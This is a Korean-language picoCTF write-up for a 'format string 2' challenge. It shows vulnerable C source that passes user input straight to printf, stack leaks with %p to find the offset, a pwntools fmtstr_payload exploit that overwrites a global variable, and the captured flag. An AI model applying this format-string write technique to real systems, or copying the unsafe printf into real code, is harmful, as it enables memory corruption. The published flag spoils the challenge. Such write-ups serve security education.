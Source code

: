 # [format string 2](https://play.picoctf.org/practice/challenge/448?category=6&difficulty=2&page=1)
<br />

**Description:**
> This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
<br />

**Source Code:**
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=dfe923d97df1df729249ff21202d10ad15d45f4c, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/format_string_2/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

# 1. 메모리 유출로 오프셋 구하기
문제에서 제공되는 소스코드를 보면 `printf`의 인자에 `buf`를 사용하는 것을 알 수 있습니다. 이는 FSB 취약점이 발생하며, 내부 주소들이 유출될 수 있습니다. 본 문제의 취지는 해당 취약점을 이용해서 특정 데이터를 바꾸는 것입니다. 따라서 FSB취약점으로 `sus`의 값을 `0x67616c66`로 바꾸면 FLAG를 획득할 수 있습니다.
<br />

우선 포맷 문자열로 입력을 받을 때, 저장되는 시작위치의 오프셋을 알아냅니다.
```bash
$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Here's your input: AAAAAAAA0x7ffebfe913e0.(nil).(nil).(nil).0x400.0x7ffebfe916d0.0x7ffebfe91638.0x3de00ec7.0x7f017e91911c.0x1.0x7ffebfe91700.(nil).(nil).0x4141414141414141.
sus = 0x21737573
You can do better!
```
```bash
$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
AAAAAAAA.%14$p
Here's your input: AAAAAAAA.0x4141414141414141
sus = 0x21737573
You can do better!
```
오프셋은 14 입니다.
<br />

```bash
$ readelf -s vuln | grep "sus"
    28: 0000000000404060     4 OBJECT  GLOBAL DEFAULT   25 sus
```
`sus`의 주소는 `0x404060` 입니다. `fmtstr` 함수로 데이터를 쉽게 조작할 수 있습니다.

<br />

```python
from pwn import *

context.arch = "amd64"

p = process("./vuln")
#p = remote("rhea.picoctf.net", 64169)

pay = fmtstr_payload(14, {0x404060:0x67616c66})

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Opening connection to rhea.picoctf.net on port 62653: Done
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
$
Here's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_99fd82cd}[*] Got EOF while reading in interactive
$
```



